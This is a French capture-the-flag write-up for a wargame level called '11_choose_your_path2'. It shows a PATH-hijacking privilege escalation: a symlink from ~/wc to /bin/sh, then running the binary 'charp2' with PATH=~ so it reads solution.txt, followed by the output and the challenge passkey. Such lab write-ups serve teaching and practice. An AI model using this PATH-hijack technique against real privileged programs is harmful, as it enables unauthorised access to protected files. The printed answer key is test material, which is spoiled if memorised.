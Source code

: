 # 11_choose_your_patch2

1. création de liens symboliques pour exploiter les vulnérabilités: __ln -s /bin/sh ~/wc__

Le fichier *~/wc* deviendra un lien symbolique pointant vers */bin/sh*. Cela peut être utilisé pour créer un alias ou un raccourci vers le shell. Lorsqu'on exécute *~/wc*, cela équivaut à exécuter */bin/sh*.
*-s*: L'option qui indique à ln de créer un lien symbolique (au lieu d'un lien dur)

````sh
rantoo@warchall:/home/level/11_choose_your_path2$ ln -s /bin/sh ~/wc
````
2. Après, il faut trouver la solution possible pour lire le contenu de fichier *solution.txt*.
Donc, Ces commandes peuvent suffit pour effectuer notre objectif
````sh
rantoo@warchall:/home/level/11_choose_your_path2$ PATH=~ ./charp2 "/bin/cat solution.txt 1>&2"
````
* *PATH=~* : Cela modifie temporairement la variable d'environnement PATH pour inclure uniquement le répertoire courant, ce qui signifie que le système cherchera les exécutables uniquement dans le répertoire actuel.
* *./charp2* : C'est le fichier à executer
* */bin/cat solution.txt*: Cela semble être une tentative d'exécuter la commande cat avec solution.txt
* *1>&2* :  Cela redirige la sortie standard (stdout) vers la sortie d'erreur standard (stderr). Cela signifie que si cat affiche quelque chose à la sortie standard, cela apparaîtra sur la sortie d'erreur standard.

````sh
Counting /bin/cat solution.txt 1>&2 ...
wc: 0: cannot open /bin/cat solution.txt 1>&2: No such file
Cannot scan! Sorry!
Dear challenger,

The original solution.txt of this challenge got lost.

However, here is the new solution: CodingIsDamnHard3.

I have no real idea what it takes to solve this challenge,
so you are obviously a better cracker than me.

Do not forget to vote the challenge!

 - gizmore
 Cannot scan! Sorry!
Floating point exception
````
The passkey is : **CodingIsDamnHard3**
